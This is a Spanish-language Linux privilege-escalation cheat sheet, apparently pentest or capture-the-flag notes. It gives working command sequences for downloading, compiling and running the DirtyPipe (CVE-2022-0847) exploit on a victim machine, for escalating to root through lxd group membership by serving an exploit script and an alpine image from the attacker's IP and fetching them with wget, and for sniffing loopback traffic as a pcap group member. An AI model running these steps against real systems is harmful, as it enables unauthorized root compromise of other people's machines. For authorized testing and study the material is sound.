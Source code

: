 ```
which wget -> /usr/bin/wget			# Para descargar el exploit a la maquina victima.
wget https://raw.githubusercontent.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/main/exploit.c

cat exploit.c | xargs | xclip -sel clip 	# Copiar el exploit.c a la clipboard.
nano exploit.c 					# Crear un archivo.c para pegar el exploit copiardo de la clipboard

gcc exploit.c -o exploit 			# Compilar el exploit.c y explortarlo al archivo con nombre exploit

./exploit					# Ejecutar el exploit
```
<br><br>
## id.
Ver a que grupos pertece el usuario actual. En caso de que este dentro del grupo lxd o docker tienes una vía potencial para escalar privilegios en caso de que no este sanitizado.<br>
Explotación del grupo lxd.
- Lo primero que se tiene que hacer es buscar con searchsploit un script que te ayude a explotar la vulnerabilidad del lxd. 
- Despues copias el exploit a la ruta actual de trabajo.
- Mueves el exploit a un archivo con nombre descriptivo con la misma extensión(exploitlxd.sh), abres el exploit, eliminas la linea 22 y añades la siguiente linea -> lxc image list y lo guardas.
- Te descargas el lxd alpine builder como completmento para la explotación. 
- Ejecutas el siguiente comando como el usuario root sudo bash build-alphine.
- Te compartes un servicio http por el puerto 80 para traladar el exploit y el alpine.tar.gz a la maquina víctima.
- Ingresas a un directorio que tenga capacidad de escritura para no tener problemas al traladar el exploitlxd.sh y con wget te tranfieres el exploitlxd.sh y el alpine.tar.gz 
- Le asignas permisos de ejecución al exploitlxd.sh, lo ejecutas y obtendras una consola como el usuario root.

```
searchsploit lxd -> linux/local/46978.sh
searchsploit -m linux/local/46978.sh .
mv 46978.sh exploit_lxd.sh && nvim exploit_lxd.sh
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
sudo bash build-alpine
sudo python3 -m http.server 80

cd /tmp 
wget http://<tu-ip-address>/exploitlxd.sh
wget http://<tu-ip-address>/alpine-v3.16-x86_64-20220817_1533.tar.gz
chmod +x exploitlxd.sh
./exploitlxd.sh
```
<b>Pcap</b><br>
Si se estas asignado al grupo pcap puedes capturar el tráfico de la interfaz de red LoopBack y guardarlo en un archivo.cap. La interfaz de red lo (LoppBack) se utiliza para enviar datos al propio dispositivo.
```
tshark -i lo -w captura.cap -v

# -i -> Especificar una interfaz de red.
# -w -> Indicar el nombre del archivo con el cual se guardará la captura.
# -v -> Verbose para ver más información acerca del tráfico de red.
```
<br><br>
## lsb_release -a (Linux Standard Base).
Comando utilizado para mostrar toda la información acerca de la distribución de Linux (Sistema Operativo) que se está ejecutando, como su nombre de distibución, versión, codename y descripción.
```
lsb_release -a
Distributor ID: Debian
```